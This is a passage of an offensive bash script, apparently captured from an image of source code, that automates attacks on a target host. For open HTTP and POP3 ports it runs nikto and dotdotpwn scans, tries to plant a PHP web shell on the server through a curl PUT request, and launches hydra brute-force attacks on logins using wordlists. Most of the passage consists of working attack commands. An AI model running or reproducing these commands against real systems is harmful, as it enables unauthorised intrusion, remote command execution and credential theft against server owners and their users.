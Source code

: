      echo "        ${AfterBruteHTTP} ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 80(HTTP) is open. Starting bruteforce...\n"
     BruteHTTP_Open="$(echo " ${BBlue}[${BGreen} Open ${BBlue}] ")"
     AfterBruteHTTP="${BruteHTTP_Open}"
     echo ""
     # Nikto
     nikto -h http://${targetIP}

     # Nikto with squid proxy
     nikto -h ${targetIP} -useproxy http://${targetIP}:4444

     # Get header
     curl -i ${targetIP}

     # Get everything
     curl -i -L ${targetIP}

     # Check if it is possible to upload using put
     curl -v -X OPTIONS http://${targetIP}/
     curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://${targetIP}/test/shell.php

     # Check for title and all links
     dotdotpwn.pl -m http -h ${targetIP} -M GET -o unix

	   sleep 1
	   hydra -L $user -P $pass ${targetIP} service http-get -o Output/${targetIP}/http-get_${targetIP}.txt -I -V / -t $thread
     Finished_Brute "${targetIP}"
   else

     echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 80(HTTP) is not open. Skipping to next port..."
     BruteHTTP_Close="$(echo " ${BBlue}[${BRed} Closed ${BBlue}] ")"
     AfterBruteHTTP="${BruteHTTP_Close}"
     # echo "${AfterBruteHTTP}"
   fi
 }
  BruteHTTP

  #  Port 110 - (POP3)
  BrutePOP3(){
    # - Name:
    # - Version:
    if grep -q 110/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 110(POP3) is open. Starting bruteforce...\n"
      sleep 1
      hydra -L $pop_u -P $pop_p ${targetIP} pop3 -e ns -o Output/${targetIP}/pop3_${targetIP}.txt -I -V -t $thread
      hydra -L $user -P $pass ${targetIP} pop3 -e ns -o Output/${targetIP}/pop3_1_${targetIP}.txt -I -V -t $thread